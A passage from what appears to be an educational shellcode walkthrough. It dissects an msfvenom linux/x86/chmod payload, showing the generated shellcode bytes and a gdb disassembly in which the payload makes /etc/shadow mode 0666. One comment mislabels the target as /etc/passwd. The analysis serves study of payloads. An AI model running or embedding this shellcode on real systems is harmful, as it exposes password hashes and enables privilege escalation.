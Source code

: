 ```c
"\x80\x6a\x01\x58\xcd\x80";
```

But it is possible to modify in a static way the name of the file.

```c
msfvenom -p linux/x86/chmod FILE=rapport -f c

No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 32 bytes
Final size of c file: 161 bytes
unsigned char buf[] = 
"\x99\x6a\x0f\x58\x52\xe8\x08\x00\x00\x00\x72\x61\x70\x70\x6f"
"\x72\x74\x00\x5b\x68\xb6\x01\x00\x00\x59\xcd\x80\x6a\x01\x58"
"\xcd\x80";


With "x72\x61\x70\x70\x6f\x72\x74\x00" which corresponds to report.
```

As for the previous examples, we compile the program then we test it via gdb.

```c
=> 0x0804a040 <+0>:	cdq    
   0x0804a041 <+1>:	push   0xf       ; push 0xf into the stack
   0x0804a043 <+3>:	pop    eax       ; eax = 15 int sys_chmod(const char* filename, mode_t mode)
   0x0804a044 <+4>:	push   edx       ; edx = 0 (cdq extends the sign bit of eax into edx)
   0x0804a045 <+5>:	call   0x804a056 <code+22>


	; Correspond à la chaine /etc/shadow 
	; \x2f\x65\x74\x63\x2f\x73\x68\x61\x64\x6f\x77\x00
   0x0804a04a <+10>:	das    
   0x0804a04b <+11>:	gs je  0x804a0b1
   0x0804a04e <+14>:	das    
   0x0804a04f <+15>:	jae    0x804a0b9
   0x0804a051 <+17>:	popa   
   0x0804a052 <+18>:	outs   dx,DWORD PTR fs:[esi]
   0x0804a054 <+20>:	ja     0x804a056 <code+22>



   0x0804a056 <+22>:	pop    ebx      ; name of the file we wants to modify
   0x0804a057 <+23>:	push   0x1b6	; mode 666 in octal
   0x0804a05c <+28>:	pop    ecx	
   0x0804a05d <+29>:	int    0x80     ; execute the chmod("/etc/passwd",0666)
					
   0x0804a05f <+31>:	push   0x1
   0x0804a061 <+33>:	pop    eax
   0x0804a062 <+34>:   	int    0x80     ; exit syscall

When adding up the files rights in ecx, we observe ebx and the name of the file to modify.

[----------------------------------registers-----------------------------------]
EAX: 0xf 
EBX: 0x804a04a ("/etc/shadow")
ECX: 0x7ffffff7 
EDX: 0x0 
ESI: 0xb7fba000 --> 0x1b1db0 
EDI: 0xb7fba000 --> 0x1b1db0 
EBP: 0xbffff148 --> 0x0 
ESP: 0xbffff128 --> 0x0 
EIP: 0x804a057 --> 0x1b668
```